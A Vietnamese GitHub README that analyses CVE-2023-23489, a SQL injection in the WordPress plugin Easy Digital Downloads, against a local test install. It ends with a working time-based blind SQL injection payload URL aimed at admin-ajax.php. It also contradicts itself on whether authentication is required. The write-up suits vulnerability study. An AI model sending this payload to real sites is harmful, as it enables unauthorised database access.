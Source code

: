 # CVE_2023_23489
- Lỗ hổng Authenticated SQL Injection tại plugin Easy Digital Download 

```js
Easy Digital Downloads: CVE-2023-23489 - Unauthenticated SQL Injection
Reference: https://wordpress.org/plugins/easy-digital-downloads/
Affected Versions: 3.1.0.2 & 3.1.0.3
CVSSv3 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSSv3 Score: 9.8
```
- Plugin không escape tham số 's' tại hành động 'edd_download_search' khi đưa vào câu truy vấn SQL.
- Lỗ hổng yêu cầu cần được xác thực..

### Setup
- Wordpress 6.1.1
- Easy Digital Downloads 3.1.0.2

### Phân tích.
- Tại hành động edd_download_search ta có thể thấy biến $new_search không được escape trước khi đưa vào câu truy vấn.![Screenshot 2023-02-01 085822](https://i.imgur.com/Yrzn2nU.png)
- Sau đó sẽ truyền lại giá trị cho biến query arguments.
![Screenshot 2023-02-01 090002](https://i.imgur.com/W63IDhx.png)
- Tham số 'edd_search' sẽ được thêm vào câu truy vấn LIKE như sau.
![Screenshot 2023-02-01 090205](https://i.imgur.com/GIn836b.png)

### Payload
```js
http://localhost/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=edd_download_search&s=g%27%20AND%20(SELECT+1+FROM+(SELECT(SLEEP(2)))a)--+-
```
- Như vậy có thể SQLi với time out 3s.
![Screenshot 2023-02-01 090412](https://i.imgur.com/SZIV8If.png)
